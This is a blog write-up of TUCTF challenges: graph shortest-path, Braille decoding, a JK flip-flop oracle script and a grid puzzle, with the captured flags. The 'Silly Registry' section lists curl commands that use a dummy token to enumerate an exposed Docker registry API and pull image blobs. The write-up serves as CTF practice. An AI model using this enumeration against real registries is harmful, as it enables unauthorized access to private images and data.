

A really nice CTF hosted annually by the CTF club at the University of Tulsa.  I really enjoyed some of the challenges here.  
<!--more-->

### Misc
#### Secret Agent

The CTF site went down before I had a chance to take screenshots. However, I recall that this challenge provided us descriptions of about 19 cities, distances between them and allowed direction of transport. i.e, you can go from `Attaya` to `Delato`, but not necessarily come back the same way. 

So, in technical terms, this information can be represented as a directed graph, with weighted edges. In the end, we are asked to find a distance-optimized shorted path between `Attaya` and `Shariot`. 

I used the `networkx` package to represent the data as a directed graph and use the in-build Djikstra algorithm to find the shortest path.  The solution is visualized the following. The complete python implementation is also provided. 


```python
import networkx as nx

# data from the challenge
#  <source city>: <1..n> target cities : <1..n> corresponding distances
links = [
    "Attaya:Belandris,Charity,Delato:10,3,5",  
    "Belandris:Jolat,Gevani,Emell:15,8,1",  
    "Charity:Belandris,Emell,Flais,Haphsa,Delato:8,2,8,3,1",  
    "Delato:Flais,Iyona,Belandris:5,5,3",  
    "Emell:Gevani,Iyona,Flais:5,3,5",  
    "Flais:Gevani,Iyona,Haphsa:3,3,1",  
    "Gevani:Jolat,Iyona,Haphsa:8,1,6",  
    "Haphsa:Iyona,Kepliker,Melyphora,Queria,Delato:8,7,8,10,1",  
    "Iyona:Jolat,Leter,Kepliker:15,4,3",  
    "Jolat:Osiros,Leter,Kepliker:7,4,5",  
    "Kepliker:Leter,Osiros,Partamo,Queria,Delato,Melyphora:5,2,6,7,2,5",  
    "Leter:Osiros,Rhenora:3,10",  
    "Melyphora:Partamo,Shariot,Queria:4,11,1",  
    "Notasto:Shariot:7",  
    "Osiros:Shariot,Rhenora:8,6",  
    "Partamo:Osiros,Rhenora,Shariot:1,5,9",  
    "Queria:Partamo,Rhenora,Shariot:1,6,10", 
    "Rhenora:Notasto,Shariot:2,1", ] 

G = nx.DiGraph()    # Create a directed graph

for l in links:
    start_n, targets, distances = l.strip().split(':')
    G.add_node(start_n)
    miles = list(map(int, distances.split(',')))
    for i,n in enumerate(targets.split(',')):
        if (not G.has_node(n)):
            G.add_node(n)
        G.add_edge(start_n, n, label=miles[i], len=miles[i], weight=miles[i])
print(G)    # DiGraph with 19 nodes and 56 edges

sl = nx.shortest_path(G, source='Attaya', target='Shariot', weight='weight')
print(sl)
# ['Attaya', 'Charity', 'Emell', 'Iyona', 'Kepliker', 'Osiros', 'Rhenora', 'Shariot']
```

There was one additional stage to this challenge. We were given a morse code fragment and asked to convert it to a key phrase for the next level of the challenge. 

```bash
# Use https://www.dcode.fr/braille-alphabet to decode 
# ⠥⠞⠀⠞⠉⠀⠎⠊⠋⠀⠍⠁⠀⠵⠁⠀⠝⠊⠀⠺⠊⠛⠀⠇⠇⠊⠀⠕⠉⠀⠍⠀⠑⠀⠃⠀⠅⠉⠁⠀⠛⠁⠀⠝⠊⠁
# to UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA
% for i in `echo "UT TC SIF MA ZA NI WIG LLI OC M E B KCA GA NIA" | tr ' ' '\n'`
do
echo $i | rev | tr -d '\n'
done
TUCTFISAMAZINGIWILLCOMEBACKAGAIN    # key for Mission 3
```
#### Silly Registry

We are given just a server endpoint, which seems to be taking HTTP requests. Upon sending a simple GET request gets an error, indicating that the request should be authorized. Putting a `Authorization:` tag into the header of the request is sufficient to bypass the errors. I as able to follow the API exploits in the following site [^1]


```bash
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly/tags/list
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/_catalog
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/tags/list

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/manifests/latest
% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/_catalog

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container

% curl --verbose  -H "Authorization: Bearer silly" chal.tuctf.com:30003/v2/silly-container/manifests/latest

% curl --verbose  -H "Authorization: Bearer silly" --output - chal.tuctf.com:30003/v2/silly-container/blobs/sha256:cb4b479aa0aecd737667fbfcceb60f7c1bd9dda82acec2ff8841a48c7a8c627b > 7b.tar.gz

 % tar tvf 7b.tar.gz 
-rw-rw-r--  0 0      0          39 Sep 18 00:47 flag.txt

% cat flag.txt 
TUCTF{my_51lly_53cr37_15_54f3_w17h_y0u}

```

#### Toes Out

We are given just a server address to use with netcat. When connected, the server prompts for input with the following questions:
```
# Inputs
J (32 characters): 
CLK (32 characters):

#Outputs
J:      <1 bit initial value + 256 bit binary string>  
CLK:    <1 bit initial value + 256 bit binary string>
Q:      <1 bit initial value + 256 bit binary string>
```
Looking at the names of the parameters, J, CLK and Q, reminds me of the [JK Flip Flop](https://electronics-course.com/jk-flip-flop). More information can be found in the following sites [^2] [^3] [^4]


Looking at the challenge, we can surmise the following. 
1. We are allowed to control the input `J` and the `CLK` signals.
1. The challenge server internally provides the `K` signal. This happens to be the flag in the big-endian order. 
1. The input signals `J` and `CLK`, along with the output `Q` is provided for 256 clock cycles.
1. We are given to change to make several attempts with different combinations of `J` and `CLK`.
1. The output `Q` of the `JK Flip Flop` is determined by the relationship below. \\(Q_0\\) is the prior state of \\(Q\\)

\\(Q = (J \And \bar{Q_0}) \parallel (\bar{K} \And Q_0) \\)

Initially, \\(Q_0 \coloneqq 1\\), making \\(\bar{Q_0} \coloneqq 0\\), if we make \\(J \coloneqq 1\\), and provide one clock edge, the output \\(Q \coloneqq \bar{K}\\).  Since we are given \\(Q\\), we can invert it to determine \\(K\\).  Note that as long as we do not provide any other clock signals, the output at \\(Q\\) will stay the same, i.e, it is latched. Thus, the flip-flop is described to have a 1-bit storage. 

So, we can create a scenario where the clock edge is gradually set at each of the 256 bit position,  holding the input \\(J \coloneqq 1\\), the other input \\(K \coloneqq \bar{Q}\\).

The python implementation of the solution is below.

```python
from pwn import *
import time
# context.log_level= 'debug'

def getResult(R, j_value, clk_value):
    R.recvuntil(b'J (32 characters): ')
    R.sendline(j_value)
    R.recvuntil(b'CLK (32 characters): ')
    R.sendline(clk_value)
    R.recvuntil(b'J:  ')
    j_stream = R.recvline().strip()
    R.recvuntil(b'CLK: ')
    clk_stream = R.recvline().strip()
    R.recvuntil(b' Q:   ')
    q_stream = R.recvline().strip()

    return( (j_stream, clk_stream, q_stream) )


'''
J : 0: 1111111111...
CLK:0: 1111 1111    FF
     : 0111 1111    7F
       1011 1111    BF
       1101 1111    DF
       1110 1111    EF
       1111 0111    F7
       1111 1011    FB
       1111 1101    FD
       1111 1110    FE
'''

R = remote('chal.tuctf.com', 30010)

flag = ''
j_pattern = b'\\xff'*32     # Pin J to be high all the time.
c_masks = b'FF7FBFDFEFF7FBFDFE' # Cycle the clock edge through all bit positions for each octet
flag_bin = ''               # binary representation of the current octet
for i in range(8*32):
    idx  = i % 8
    if (i > 0 and idx == 0):
        flag += chr(int(flag_bin,2))    # if the octet is full, convert to a character
        flag_bin = ''       

    # 
    clk_pattern = b'\\xFF'*(i//8) + b'\\x' + c_masks[idx*2:idx*2+2] + b'\\xFF'*(32-(i//8)-1)
    J, C, Q = getResult(R, j_pattern, clk_pattern)

    flag_bin += '0' if Q[-1] == 49 else '1'     # just grab the last value of Q and invert it

    # be kind to the server. sleep briefly
    time.sleep(0.5)
    print(f"{flag}  ... {flag_bin}")

flag += chr(int(flag_bin,2))
print(f"\n\n{flag}\n\n")
R.close()
```
Running this script against the server makes 256 calls and captures 1 bit of information each time. Assembling all of these bits and converting each octet to a character, gives us the flag. I have a bug in my code that corrupted one of the bits in the first octet, which was easy to fix manually. 



```
# server response when K == 1 at the 6th position ('T' == 01010100)
# Note that the CLK input is set to have a 0 -> 1 transition at the 6th cycle. 
#
J:   b'0 1111111111111 .... '
CLK: b'0 1111011111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111'
Q:   b'0 1111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'


# There is a bug with the boundary condition at the begining. One of the bits has flipped.
# Easy to discern that the flag should be `TUCTF{`

\x14UCTF{w3_fl1p_we_fl0p_w3_fly_J  ... 0100101
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_J  ... 01001011
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 0
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 01
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 011
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 0111
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 01111
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 011111
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 0111110
\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK  ... 01111101

\x14UCTF{w3_fl1p_we_fl0p_w3_fly_JK}
```

### Programming
#### Titular Treasure Triangulation
In this challenge, we are givean a spreadsheet with a 26x26 grid of numbers and a clue. 
```
(((25,189), 307), 54) ((458, 429), 319) (420, 4) ((174, 2), 240) (((323, 42), 8), 113) (((12, 396), 530), 570) (295, 28) ((83, 80), 93) (((294, 96), 557), 40) (464, 34) (81, 177)
```
My first thought was to use the pair of numbers as X-Y coordinates for the grid. However, given the size of the numbers, we learn that we need to interpret them like landmarks on the map. So, we use need to locate the first number and use it as a reference to travel on the X-axis relative to it and travel in the Y-axis relative to the second number. Where those two axes meet is the intersection point, which replaces the pair in the clue. The intersection is also the ASCII value of the character in the flag. 

An example of interpreting the first statement in the clues to get the letters `TUC`. 


I programmed the algorithm in the program below. I chose to manually input the correct coordinate if there are more than one acceptable value (i.e printable ascii value `32 < v < 128`)

```python

from collections import defaultdict

# Grid/Treasure map from the spreadsheet. 
grid = [
[89,444,610,120,459,604,524,511,150,385,602,179,51,571,237,240,82,9,460,465,33,455,444,254,444,323],
[253,122,119,312,612,220,499,561,584,345,133,293,222,210,212,460,297,490,423,46,70,140,26,305,444,375],
[117,259,420,338,92,123,495,444,105,300,511,66,453,116,502,117,172,202,174,286,545,241,211,454,276,613],
[315,520,354,418,417,30,15,540,305,565,307,354,384,14,170,72,332,551,608,282,70,132,114,124,295,331],
[299,125,556,401,353,23,122,444,444,522,329,223,23,312,602,395,297,626,440,552,432,27,235,79,291,444],
[342,235,141,572,51,182,443,185,192,287,299,476,215,99,130,493,192,134,145,597,601,322,584,125,81,554],
[444,59,380,262,444,592,541,164,369,309,524,199,234,449,321,301,460,491,154,439,362,196,135,330,367,600],
[25,548,473,185,41,84,70,202,43,503,85,46,524,95,55,67,403,91,12,487,77,41,322,493,149,318],
[112,480,542,623,267,556,319,205,70,442,37,22,228,493,482,379,465,517,622,586,537,230,223,414,507,233],
[415,386,24,298,371,450,119,500,358,38,43,57,523,151,204,557,220,71,109,279,609,444,28,422,121,532],
[233,384,511,155,447,550,424,45,104,97,144,360,581,498,570,362,607,512,253,186,387,517,479,116,471,106],
[435,462,191,70,414,45,341,444,156,512,219,94,113,388,477,608,516,274,426,119,519,82,55,51,205,34],
[258,221,119,598,593,215,495,53,503,401,223,338,154,530,512,461,52,563,406,488,299,483,444,108,407,445],
[550,70,5,493,374,4,444,249,162,547,86,50,600,132,52,118,465,114,619,517,416,396,192,117,161,431],
[339,526,252,526,390,57,86,22,389,421,139,444,583,573,96,444,483,114,518,154,103,82,367,411,457,422],
[165,240,261,59,387,261,66,588,444,429,503,2,331,78,245,471,17,168,220,590,283,206,316,572,612,139],
[498,384,450,551,24,124,261,431,516,261,333,550,540,207,444,39,455,552,362,292,542,206,233,177,451,376],
[625,512,494,215,489,611,104,68,286,497,175,500,298,64,101,313,320,444,466,80,279,155,610,510,257,116],
[428,128,204,388,57,225,183,430,329,596,196,590,26,36,145,115,271,148,75,202,8,512,508,444,10,103],
[133,374,200,321,364,131,454,97,528,372,255,3,168,577,611,79,622,40,313,182,269,47,367,270,614,525],
[601,514,11,85,292,30,266,357,458,84,409,91,559,245,527,106,42,551,443,350,36,1,158,615,549,444],
[551,166,398,483,452,444,413,261,345,609,249,444,281,183,444,171,237,53,395,197,525,262,436,86,165,145],
[217,299,353,259,98,159,310,373,222,1,121,624,513,303,235,340,608,89,161,185,379,306,541,621,169,624],
[33,183,562,355,263,205,43,74,549,10,378,294,286,157,50,219,359,24,467,291,575,475,66,533,615,604],
[459,549,326,197,61,449,452,376,454,529,444,388,332,93,173,54,391,194,152,64,325,395,282,464,537,51],
[53,499,617,122,9,189,303,560,380,149,475,377,339,64,496,473,217,83,163,69,409,208,385,218,511,534],
]

ROWS = len(grid)
COLS = len(grid[0])

values = defaultdict(list)   

# note that the original clue in the challenge has ((174, 2), 290). 290 does not appear in the grid.
# However, using 240 instead of 290 yields the correct flag.

CLUE = "(((25,189), 307), 54) ((458, 429), 319) (420, 4) ((174, 2), 240) (((323, 42), 8), 113) (((12, 396), 530), 570) (295, 28) ((83, 80), 93) (((294, 96), 557), 40) (464, 34) (81, 177)"

def find_cell(x, y):
    return grid[x][y]

def find_intersection(a, b):
    valid = []
    # There could be multiple positions for 'a' - test each coordinate. 
    # Since the coordinates make up the flag, it is valid only if the 
    # value falls in the printable ascii range.  i.e  32 < v < 128
    for Xa,Ya in values[a]:
        for Xb, Yb in values[b]:
            v = find_cell(Xa, Yb)
            if (v > 32 and v < 128):
                print(f" [{Xa},{Ya}]    [{Xb},{Yb}]    -->   [{Xa},{Yb}] [{v}]    [{chr(v)}]")
                valid.append(v)
    return valid

for i in range(ROWS):
    for j in range(COLS):
        values[grid[i][j]].append ( (i,j) )

# While this can be further optimized and automated, 
# it is easy enough to manually supply the coords
while True:
    x, y = map(int, input(f"Give X Y\n> ").strip().split())
    v = find_intersection(x, y)

# TUCTF{BuR!3)_7rE@2vr3}
```

### Crypto
#### Custom ECB Cipher

### Forensics
#### Free Proxy

### References
[^1]: https://dreamlab.net/en/blog/post/abusing-exposed-docker-registry-apis/
[^2]: https://electronics-course.com/jk-flip-flop
[^3]: https://github.com/snbk001/100DaysofRTL/blob/main/day11/jkff.sv
[^4]: https://www.falstad.com/circuit/e-jkff.html


### Challenges

|Category|Challenge|Description
|----|----|----
|Cryptography|Custom ECB Cipher|
|Cryptography|Keyboard Cipher|
|Cryptography|Never Ending Crypto: Taylor's Version|
|Cryptography|Simple Cipher|
|Cryptography|Table Encryption|
|Forensics|Free Proxy|
|Forensics|State of the Git|
|Forensics|What Are You Doing In My Swamp?|
|Intro/Welcome|Discord|
|Intro/Welcome|Survey|
|Misc|A.R.K. 1|
|Misc|A.R.K. 2|
|Misc|A.R.K. 3|
|Misc|A.R.K. 4|
|Misc|Secret Agent|
|Misc|Silly Registry|
|Misc|Toes Out|
|Programming|Bludgeon the Booty|
|Programming|CaRLsLabrinth|
|Programming|Cube (2023)|
|Programming|Hacker Typer|
|Programming|Plenty O Fish in the Sea|
|Programming|Titular Treasure Triangulation|
|Pwn|Hidden Value|
|Reversing|Electric Byte|
|Reversing|Java Juggling|
|Reversing|Jmpfuscator|
|Reversing|Ostrich|
|Reversing|Try Debug Me|
|Web|Aspiring Calculator|
|Web|My First Blog|
|Web|PHP Practice|
|Web|PNG and Jelly Sandwich|

